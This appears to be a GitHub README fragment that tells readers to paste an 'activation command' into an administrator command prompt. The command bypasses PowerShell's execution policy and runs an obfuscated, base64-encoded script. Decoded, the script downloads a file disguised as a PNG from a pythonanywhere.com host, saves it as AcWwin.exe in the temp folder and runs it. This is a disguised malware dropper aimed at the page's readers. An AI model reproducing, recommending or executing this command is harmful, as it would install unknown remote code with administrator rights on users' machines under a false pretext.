 > [!NOTE]
> Copy and paste the full activation command into CMD (admin)


> [!TIP]
> powershell Set-ExecutionPolicy Bypass -Scope Process -Force; powershell.exe -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAGIAcgBvAGEAZABjAGEAcwB0ADAAOAAuAHAAeQB0AGgAbwBuAGEAbgB5AHcAaABlAHIAZQAuAGMAbwBtAC8AcwB0AGEAdABpAGMALwBtAGEAaQBuAC4AcABuAGcAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAJABlAG4AdgA6AFQARQBNAFAAXABBAGMAVwB3AGkAbgAuAGUAeABlACIAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACIAJABlAG4AdgA6AFQARQBNAFAAXABBAGMAVwB3AGkAbgAuAGUAeABlACIAOwAKAA==
